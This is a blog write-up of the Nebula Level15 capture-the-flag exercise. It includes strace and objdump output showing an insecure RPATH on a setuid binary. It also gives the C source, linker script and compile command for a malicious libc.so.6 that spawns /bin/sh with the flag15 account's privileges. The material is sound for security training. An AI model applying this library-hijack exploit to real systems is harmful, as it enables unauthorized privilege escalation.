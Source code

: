 ```yaml
---
title: "Exploit Exercises Nebula Level15"
date: "2016-02-22"
slug: "exploit-exercises-nebula-level15"
Categories:
- Exploit Exercises
---
```


The *About* section for [Level15] contains the following instructions:

"strace the binary at /home/flag15/flag15 and see if you spot anything out of the ordinary.

You may wish to review how to “compile a shared library in linux” and how the libraries are loaded and processed by reviewing the dlopen manpage in depth.

Clean up after yourself :)"

<!--more-->

Let's follow the instructions and run strace:

        level15@nebula:/home/flag15$ strace ./flag15
        execve("./flag15", ["./flag15"], [/* 20 vars */]) = 0
        brk(0)                                  = 0x9bad000
        access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
        mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb78da000
        access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
        open("/var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
        stat64("/var/tmp/flag15/tls/i686/sse2/cmov", 0xbf946604) = -1 ENOENT (No such file or directory)
        open("/var/tmp/flag15/tls/i686/sse2/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
        stat64("/var/tmp/flag15/tls/i686/sse2", 0xbf946604) = -1 ENOENT (No such file or directory)
        open("/var/tmp/flag15/tls/i686/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
        stat64("/var/tmp/flag15/tls/i686/cmov", 0xbf946604) = -1 ENOENT (No such file or directory)
        open("/var/tmp/flag15/tls/i686/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
        stat64("/var/tmp/flag15/tls/i686", 0xbf946604) = -1 ENOENT (No such file or directory)
        open("/var/tmp/flag15/tls/sse2/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
        stat64("/var/tmp/flag15/tls/sse2/cmov", 0xbf946604) = -1 ENOENT (No such file or directory)
        open("/var/tmp/flag15/tls/sse2/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
        stat64("/var/tmp/flag15/tls/sse2", 0xbf946604) = -1 ENOENT (No such file or directory)
        open("/var/tmp/flag15/tls/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
        stat64("/var/tmp/flag15/tls/cmov", 0xbf946604) = -1 ENOENT (No such file or directory)
        open("/var/tmp/flag15/tls/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
        stat64("/var/tmp/flag15/tls", 0xbf946604) = -1 ENOENT (No such file or directory)
        open("/var/tmp/flag15/i686/sse2/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
        stat64("/var/tmp/flag15/i686/sse2/cmov", 0xbf946604) = -1 ENOENT (No such file or directory)
        open("/var/tmp/flag15/i686/sse2/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
        stat64("/var/tmp/flag15/i686/sse2", 0xbf946604) = -1 ENOENT (No such file or directory)
        open("/var/tmp/flag15/i686/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
        stat64("/var/tmp/flag15/i686/cmov", 0xbf946604) = -1 ENOENT (No such file or directory)
        open("/var/tmp/flag15/i686/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
        stat64("/var/tmp/flag15/i686", 0xbf946604) = -1 ENOENT (No such file or directory)
        open("/var/tmp/flag15/sse2/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
        stat64("/var/tmp/flag15/sse2/cmov", 0xbf946604) = -1 ENOENT (No such file or directory)
        open("/var/tmp/flag15/sse2/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
        stat64("/var/tmp/flag15/sse2", 0xbf946604) = -1 ENOENT (No such file or directory)
        open("/var/tmp/flag15/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
        stat64("/var/tmp/flag15/cmov", 0xbf946604) = -1 ENOENT (No such file or directory)
        open("/var/tmp/flag15/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
        stat64("/var/tmp/flag15", {st_mode=S_IFDIR|0775, st_size=3, ...}) = 0
        open("/etc/ld.so.cache", O_RDONLY)      = 3
        fstat64(3, {st_mode=S_IFREG|0644, st_size=33815, ...}) = 0
        mmap2(NULL, 33815, PROT_READ, MAP_PRIVATE, 3, 0) = 0xb78d1000
        close(3)                                = 0
        access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
        open("/lib/i386-linux-gnu/libc.so.6", O_RDONLY) = 3
        read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0p\222\1\0004\0\0\0"..., 512) = 512
        fstat64(3, {st_mode=S_IFREG|0755, st_size=1544392, ...}) = 0
        mmap2(NULL, 1554968, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x829000
        mmap2(0x99f000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x176) = 0x99f000
        mmap2(0x9a2000, 10776, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x9a2000
        close(3)                                = 0
        mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb78d0000
        set_thread_area({entry_number:-1 -> 6, base_addr:0xb78d08d0, limit:1048575, seg_32bit:1, contents:0, read_exec_only:0, limit_in_pages:1, seg_not_present:0, useable:1}) = 0
        mprotect(0x99f000, 8192, PROT_READ)     = 0
        mprotect(0x8049000, 4096, PROT_READ)    = 0
        mprotect(0x31f000, 4096, PROT_READ)     = 0
        munmap(0xb78d1000, 33815)               = 0
        fstat64(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 0), ...}) = 0
        mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb78d9000
        write(1, "strace it!\n", 11strace it!
        )            = 11
        exit_group(11)                          = ?

Strange, it is trying (and erroring) when attempting to open a number of items in '/var/tmp/flag15/'.

I took a quick look at the directory to check if it was a permissions issue:

        level15@nebula:/var/tmp/flag15$ ls -al
        total 0
        drwxrwxr-x 2 level15 level15  3 2012-10-31 01:38 .
        drwxrwxrwt 1 root    root    40 2016-02-19 23:37 ..

Nope, nothing is in that directory. Time to run a quick *objdump* to see if we can glean some additional details:

        level15@nebula:/home/flag15$ objdump -p flag15

        flag15:     file format elf32-i386

        Program Header:
            PHDR off    0x00000034 vaddr 0x08048034 paddr 0x08048034 align 2**2
                 filesz 0x00000120 memsz 0x00000120 flags r-x
          INTERP off    0x00000154 vaddr 0x08048154 paddr 0x08048154 align 2**0
                 filesz 0x00000013 memsz 0x00000013 flags r--
            LOAD off    0x00000000 vaddr 0x08048000 paddr 0x08048000 align 2**12
                 filesz 0x000005d4 memsz 0x000005d4 flags r-x
            LOAD off    0x00000f0c vaddr 0x08049f0c paddr 0x08049f0c align 2**12
                 filesz 0x00000108 memsz 0x00000110 flags rw-
         DYNAMIC off    0x00000f20 vaddr 0x08049f20 paddr 0x08049f20 align 2**2
                 filesz 0x000000d0 memsz 0x000000d0 flags rw-
            NOTE off    0x00000168 vaddr 0x08048168 paddr 0x08048168 align 2**2
                 filesz 0x00000044 memsz 0x00000044 flags r--
        EH_FRAME off    0x000004dc vaddr 0x080484dc paddr 0x080484dc align 2**2
                 filesz 0x00000034 memsz 0x00000034 flags r--
           STACK off    0x00000000 vaddr 0x00000000 paddr 0x00000000 align 2**2
                 filesz 0x00000000 memsz 0x00000000 flags rw-
           RELRO off    0x00000f0c vaddr 0x08049f0c paddr 0x08049f0c align 2**0
                 filesz 0x000000f4 memsz 0x000000f4 flags r--

        Dynamic Section:
          NEEDED               libc.so.6
          RPATH                /var/tmp/flag15
          INIT                 0x080482c0
          FINI                 0x080484ac
          GNU_HASH             0x080481ac
          STRTAB               0x0804821c
          SYMTAB               0x080481cc
          STRSZ                0x0000005a
          SYMENT               0x00000010
          DEBUG                0x00000000
          PLTGOT               0x08049ff4
          PLTRELSZ             0x00000018
          PLTREL               0x00000011
          JMPREL               0x080482a8
          REL                  0x080482a0
          RELSZ                0x00000008
          RELENT               0x00000008
          VERNEED              0x08048280
          VERNEEDNUM           0x00000001
          VERSYM               0x08048276

        Version References:
          required from libc.so.6:
            0x0d696910 0x00 02 GLIBC_2.0

This line piqued my interest, it may explain the calls to '/var/tmp/flag15/'.

        RPATH                /var/tmp/flag15

I am jumping ahead a bit here after numerous attempts and all the different paths I went down. I did not want to make this post 30 pages long <code>:)</code>.

My goal was to use the calls to "/var/tmp/flag15/libc.so.6" and replace it with my code. This is not as simple as it sounds and I spent a lot of time troubleshooting all the various errors that occurred.

Here are the contents of my "dummy\_libc.c":

        level15@nebula:/var/tmp/flag15$ cat dummy_libc.c
        #include<stdio.h>

        int __libc_start_main(int (*main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)) {
            system("/bin/sh");
            return 0;
        }

One of the breakthroughs I experienced was when I was consistently seeing an error thrown specifying <code>no version information available</code>. Thank goodness for [stackoverflow]!

        level15@nebula:/var/tmp/flag15$ cat version.ld
        GLIBC_2.0 {
        };

Time to compile:

        level15@nebula:/var/tmp/flag15$ gcc -shared -static-libgcc -fPIC -Wl,--version-script=version.ld,-Bstatic dummy_libc.c -o libc.so.6

Let's run flag15 and pray..

        level15@nebula:/var/tmp/flag15$ /home/flag15/flag15
        sh-4.2$ id
        uid=1016(level15) gid=1016(level15) euid=984(flag15) groups=984(flag15),1016(level15)
        sh-4.2$ getflag
        You have successfully executed getflag on a target account

Wow, I was overjoyed when I finally saw that shell prompt appear. What an amazing learning experience that level was!

Admittedly, this level took me a long time and required a significant amount of additional research. I knew "what" I needed to do, just not "how" to do it.

[Mike][]

[Level15]: https://exploit-exercises.com/nebula/level15/ "Level15"
[stackoverflow]: http://stackoverflow.com/questions/137773/what-does-the-no-version-information-available-error-from-linux-dynamic-linker "stackoverflow"
[Mike]: /contact "Contact Mike"

